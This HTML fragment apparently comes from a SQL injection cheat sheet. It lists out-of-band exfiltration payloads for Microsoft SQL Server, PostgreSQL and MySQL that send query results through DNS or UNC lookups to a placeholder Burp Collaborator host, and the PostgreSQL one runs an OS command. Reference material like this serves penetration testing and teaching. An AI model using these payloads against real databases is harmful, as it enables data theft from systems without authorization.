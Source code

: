                 <th>
                    Microsoft
                </th>
                <td><code>
                    declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
                </code></td>
            </tr>
            <tr>
                <th>
                    PostgreSQL
                </th>
                <td><code>
                    create OR replace function f() returns void as $$<br>
                    declare c text;<br>
                    declare p text;<br>
                    begin<br>
                    SELECT into p (SELECT YOUR-QUERY-HERE);<br>
                    c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';<br>
                    execute c;<br>
                    END;<br>
                    $$ language plpgsql security definer;<br>
                    SELECT f();
                </code></td>
            </tr>
            <tr>
                <th>
                    MySQL
                </th>
                <td>
                    The following technique works on Windows only:<br>
                    <code>SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code>
                </td>
            </tr>
        </table>
        
    </div>
